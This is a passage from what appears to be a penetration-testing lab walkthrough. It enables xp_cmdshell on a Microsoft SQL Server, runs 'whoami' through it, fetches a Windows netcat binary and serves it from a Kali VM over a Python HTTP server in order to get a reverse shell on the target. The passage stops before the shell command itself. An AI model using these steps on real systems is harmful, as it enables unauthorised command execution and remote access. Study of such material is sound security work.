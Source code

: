 5.3 INFO:

RUN: **enable_xp_cmdshell**

![](./media/media/image10.png){width="5.781990376202975in"
height="0.4130905511811024in"}

5.4 INFO: Check USER AGAIN

RUN: **xp_cmdshell whoami**

![](./media/media/image11.png){width="2.289099956255468in"
height="0.8428215223097113in"}

5.5 INFO: Download NETCAT for Windows https://github.com/int0x33/nc.exe/

INFO: Upload it and get REVERSE SHELL. IMPORTANT: Start http Server on
Kali VM and RUN command on TARGET MACHINE (SERVER)!

RUN on Kali VM: **python3 -m http.server 80**

![](./media/media/image12.png){width="6.288888888888889in"
height="4.4125in"}
